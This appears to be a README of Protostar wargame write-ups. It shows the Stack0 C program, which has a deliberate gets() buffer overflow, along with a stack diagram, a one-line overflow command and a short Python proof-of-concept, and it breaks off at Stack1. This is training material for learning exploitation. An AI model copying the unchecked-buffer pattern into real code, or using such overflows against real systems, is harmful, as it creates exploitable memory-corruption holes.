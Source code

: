 # protostar
protostar sploits and solutions 
https://exploit-exercises.com/protostar

NOTE: write ups in progress. Adding python exploit poc's to each excercise for practice!

##Stack0
Source Code:
```C
int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
###Stack looks like:
 ---------------------------------------
| eip | ebp | modified(0) |   buffer    |
 ---------------------------------------
fill buffer with gets 
since buffer = 64 bytes, an input of 65 bytes should overflow and overwrite modified

###winning command:
```bash
python -c "print 'a'*64+'1'" | ./stack0
```
###Python exploit script for this challenge
```Python
from subprocess import Popen, PIPE
################
buffer = 64
fill = "A"*buffer
input=fill+"1"
#################
cproc = Popen("./stack0", stdin=PIPE, stdout=PIPE)
print cproc.communicate(input)[0]
```

---------------------------------------------------------------------------------------------------------------------
##Stack1

